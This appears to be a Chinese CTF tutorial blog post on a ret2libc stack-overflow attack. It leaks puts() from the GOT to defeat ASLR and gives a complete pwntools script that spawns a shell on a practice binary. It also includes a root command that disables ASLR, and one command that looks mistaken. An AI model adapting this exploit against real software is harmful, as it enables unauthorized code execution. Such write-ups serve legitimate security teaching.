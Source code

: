 ```yaml
---
title: ret2libc攻击技术示例-泄露libc基地址计算system()地址绕过ASLR
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 情景描述

随着保护的加强，比如加入了`ASLR(Address Space Layout Randomization),地址空间格局的随机化`保护，这时我们所获取的各个函数地址都在变化中变得不再可用（在本地我们可用），这时我们还要使用libc中的system()函数获取shell的话，那我们该怎么办呢？

其实`ASLR`在随机化过程中，只会改变libc的基地址，对于libc中各个函数的偏移是不会改变的，因此只要我们泄露内存中的`libc基地址`那么我们就能够根据偏移得到system()函数地址。

当然我们本地是可以关闭`ASLR`保护的，只需要在终端执行以下命令
```bash
sudo -s
echo 0 > /proc/sys/kernel/randomize_va_space # 2 - trun on
exit
```

# 漏洞分析

本节示例的漏洞代码可以在此处下载： [ret2libc3](/files/ret2libc3) & [libc.so.6](/files/libc.so.6)
当然这里的libc.so.6最好是用自己系统的。我们可以通过`ldd`命令查看

``` bash
➜  ret2libc3 ldd ret2libc3
	linux-gate.so.1 =>  (0xf77da000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7605000)
	/lib/ld-linux.so.2 (0x565eb000)
```

我们可以通过`sudo /lib/i386-linux-gnu/libc.so.6 .`获取合适的libc。否则的话，在本节中会出现无法拿到shell的情况哦。

我们用IDA反编译一下可以看到

``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```

我们要怎么获得libc中某函数的地址呢？我们一般采用的方法就是泄露got表。因为linux的延迟绑定，我们需要选择至少执行过一次的函数进行泄露，比如这里的`puts()`

通过泄露`puts()`在libc中的偏移，再结合`puts()`的实际内存地址，我们可以这样进行计算：
``` python
system_addr - libc_system = puts_addr - libc_puts
system_addr = puts_addr + (libc_system - libc_puts)
```
即system()的内存地址为puts()的内存地址再加上两个函数在libc中的偏移差

那么

``` bash
➜  ret2libc3 objdump -dj .plt ret2libc3 | grep -E "puts|system"
08048460 <puts@plt>:
```

# 攻击代码

``` python
from pwn import *

#context.log_level = 'debug'

elf = ELF('ret2libc3')
libc = ELF('libc.so.6')


plt_puts = elf.symbols['puts']
got_puts = elf.got['puts']
plt_main = elf.symbols['_start']

libc_system = libc.symbols['system']
libc_puts = libc.symbols['puts']

payload = 'A' * 112
payload += p32(plt_puts) + p32(plt_main) + p32(got_puts)

io = process('ret2libc3')
io.recvuntil('Can you find it !?')
io.sendline(payload)

temp = io.recv(4)
puts_addr = u32(temp)
print "[+] puts() address: " + hex(puts_addr)

libc_base = puts_addr - libc_puts
print "[+] libc base address: " + hex(libc_base)

system_addr = libc_base + libc_system
print "[+] system address: " + hex(system_addr)

bin_sh_addr = libc_base + next(libc.search('/bin/sh'))
print "[+] /bin/sh address: " + hex(bin_sh_addr)

payload = 'A' * 112
payload += p32(system_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)

io.recvuntil('Can you find it !?')
io.sendline(payload)
io.interactive()

```
